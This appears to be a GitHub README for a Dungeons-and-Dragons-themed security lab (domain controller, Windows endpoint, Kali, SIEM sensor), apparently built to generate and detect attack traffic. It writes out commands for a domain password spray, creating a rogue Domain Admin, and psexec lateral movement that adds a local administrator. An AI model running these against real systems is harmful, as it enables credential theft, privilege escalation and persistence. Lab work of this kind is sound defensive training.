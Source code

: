 # Lab Setup

## Infrastructure
- Your infrastructure can really be hosted anywhere.
  - Locally via vmware, virtualbox, etc
  - In the cloud via Azure, GCP, AWS
  - Prod? (j/k)

- They should be in all the same network 

### 1. Windows Domain Controller
- Specs
  - supported OS version
  -

### 2. Windows Endpoint
- Joined to above domain
- Download and install [Wireshark](https://www.wireshark.org/)
### 3. Kali Linux
### 4. Optional - Whatever you need for SIEM?
In my case you will see in the demos that I'm using a Blumira sensor. This is an Ubuntu box with a docker container that has a [Blumira](https://www.blumira.com) sensor installed on it. Because this isn't a SIEM training, it's difficult to go through a full lab setup of something like ELK or Splunk. 

## Files/Scripts/Commands

1. [Domain Password Spray from @dafthack](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
   - Right-click, run powershell as admin
```
CD *directory that you've cloned the powershell script into*
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\DomainPasswordSpray.ps1
https://github.com/dafthack/DomainPasswordSpray
Cd C:/DNDShare
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain forgottenforest.local -PasswordList passlist.txt -OutFile sprayed-creds.txt
```
2. Creating a Domain Admin
- Create a DNDUsers OU in Active Directory Users & Computers on the DC
```
Set-ExecutionPolicy Unrestricted
Import-Module ActiveDirectory
New-ADUser -Name "HP Lovecraft" -GivenName "HP Lovecraft" -SamAccountName "hplovecraft" -UserPrincipalName "hplovecraft@forgottenforest.local" -Path "OU=DNDUsers,DC=domain,DC=local" -AccountPassword(Read-Host -AsSecureString "Type Password for User") -Enabled $true
Add-ADGroupMember -Identity “Domain Admins” -Members hplovecraft
```
3. Data Exfil & Network Forensics


4. Lateral Movement
- Psexec add user to another host
```
CD into psexec directory
psexec.exe \\MagicRainbowPC.domain.local -u DNDUser -p passwordhere cmd
net user MyNewUser MyPassword#@$ /add
net localgroup administrators MyNewUser /add
```
